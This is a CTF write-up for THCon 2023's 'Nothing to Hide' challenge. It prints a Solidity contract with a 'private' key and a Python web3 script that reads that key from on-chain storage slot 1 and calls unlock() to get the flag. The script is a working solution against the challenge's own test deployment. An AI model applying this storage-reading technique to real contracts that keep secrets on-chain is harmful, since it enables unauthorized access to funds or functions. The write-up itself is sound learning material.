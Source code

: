 # Nothing to Hide (THCon CTF 2023)


# Description

![](/images/thcon23-nothingtohide-description.png)

The challenge provides the following contract, and, same as the [Welcome challenge](https://cryptax.github.io/2023/04/22/welcome.html), the goal is to "unlock" to get the flag.


```
pragma solidity ^0.7.1;

contract hidden {

    bool public isLocked;
    
    bytes32 private key;
    
    bool private other;

    uint256 private garbage = 88888888888;

    uint256 public useless;

    uint256 private bob;


    constructor() {
        //hidden
    }

    function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }

}
```


# Solving the challenge

Like in the previous challenge, to unlock, we need a **key**, except this time it is *private*:

```
bytes32 private key;
...
function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }
```

So, we're going to read the key (exactly the way I had intended to do it initially with Welcome) using [`get_storage_at`](https://web3py.readthedocs.io/en/stable/web3.eth.html#web3.eth.Eth.get_storage_at). The storage probably holds the key at index 1:

```
bool public isLocked; # index 0
bytes32 private key;  # index 1
bool private other;   # index 2
...
```


The first step is to get the ABI of the contract, using solc. That's a step I grasped from [Sylvain Pelissier at Insomni'hack CTF](https://sylvainpelissier.gitlab.io/posts/2023-03-24-insomnihack-ownercheap/):

```
solc nothingtohide.sol --abi > abi.json
```

For the command to work, in my case, I had to fix the solidity pragma to `pragma solidity ^0.8.19;`. Then I copy-pasted the Json array in my Python script.

Then, you deploy the contract on the CTF infrastructure and retrieve the contact's address.

My script is very inspired from Sylvain's:

1. Connect to the RPC URL
2. Get the contract, using its address
3. Read the key from storage
4. Send the transaction

To send the transaction, you need your private key. You can retrieve it from the Metamask wallet you created for the CTF:

![](/images/thcon23-web3-account.png)
![](/images/thcon23-web3-accountdetails.png)

```python
#!/usr/bin/env python3

from web3 import Web3

# solc nothingtohide.sol --abi > abi.json - then copy paste content of abi.json here
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[],"name":"isLocked","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"bytes32","name":"_something","type":"bytes32"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"useless","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]

# connect to the CTF RPC URL
url = 'https://node01-eth.ctf.thcon.party:8545'
web3 = Web3(Web3.HTTPProvider(url))

# I am logged in the CTF interface with this personal address
my_address = web3.to_checksum_address('0xc8fe...')

# The contract is deployed at this address
contract_address = web3.to_checksum_address('0xb9eE2C6DBa64e2dc3FE7e78aEE8e34FBb33FcAA3')
contract = web3.eth.contract(address=contract_address, abi=abi)

# Read the key from the contract
key_bytes = web3.eth.get_storage_at(contract_address,1)
print(f"key bytes: {key_bytes} {len(key_bytes)}")
# b' \xfa\xbb\xc0f0e\xde\x90\x9de\xa3\x02D\xd2\xb4\x1eE\x10\xa3`\xe7\xd5\xb0xA\xbb\x90\x8a\xd5z\x9f'

# create transaction
print('Creating transaction...')
transfer_tx = contract.functions.unlock(key_bytes).build_transaction(
    {
        'from': my_address,
        'nonce': web3.eth.get_transaction_count(my_address),
        'gasPrice': web3.eth.gas_price
    })


# signing the transaction with my personal wallet's private key (in Metamask)
print("Signing transaction...")
x_create = web3.eth.account.sign_transaction(transfer_tx, 0x863ce...)
# sending the transaction - for that I need a few tokens at least that I can mine on the CTF interface
print('Send raw...')
tx_hash = web3.eth.send_raw_transaction(x_create.rawTransaction)
print('Receipt')
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(f'Tx successful with hash: { tx_receipt.transactionHash.hex() }')
```

This unlocks the contract, and thus, when you go back to the CTF interface, you get the flag :)

![](/images/thcon23-nothingtohide-solved.png)

# My feedback

Actually, I flagged this challenge more easily / quickly than Welcome, because I had some prior (small) experience with Web3 python scripts.
Nevertheless, I liked it very much: I find the scenario's design excellent, the CTF crypto interface excellent. Thanks!

